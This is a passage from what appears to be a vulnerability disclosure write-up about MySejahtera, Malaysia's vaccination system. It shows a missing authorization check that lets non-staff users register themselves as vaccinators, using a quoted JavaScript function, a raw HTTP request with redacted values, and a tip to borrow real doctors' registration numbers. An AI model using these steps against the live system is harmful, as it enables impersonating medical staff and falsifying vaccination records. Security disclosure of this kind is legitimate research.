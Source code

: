 
Worst scenario here is we can add our own vaccine booster as much as we can (I guess).
![Screenshot](https://raw.githubusercontent.com/nafiez/nlabs.github.io/master/images/add_booster.png "Screenshot")

Vulnerability #3 - Manage Doctor Records
----------------------------------------
Third vulnerability was found in "/manageDoctorRecords/locationId/" which allows non-staff users to add themselves as vaccinator. The application does not check if the vaccinators are real staff and you can become a doctor :) Here's the JS code reference to the manage doctor record:
```
        function manageDoctorRecords(locationId, locationName) {
            window.location.href = _ctx + "/manageDoctorRecords/locationId/" + locationId + "?ln=" + locationName;
        }
```

Once we get the vaccinator list, we can add ourselves as the vaccinator. MMC number can be retrieved from https://meritsmmc.moh.gov.my by picking up a random number from the list. Similar to the first issue, we just need to known location ID and we can simply send the following request:
```
GET /checkin/manageDoctorRecords/locationId/<readacted>?ln=<redacted> HTTP/2
Host: mysejahtera.malaysia.gov.my
Cookie: acw_tc=<redacted>
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://mysejahtera.malaysia.gov.my/checkin/hfAccountSettings
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```
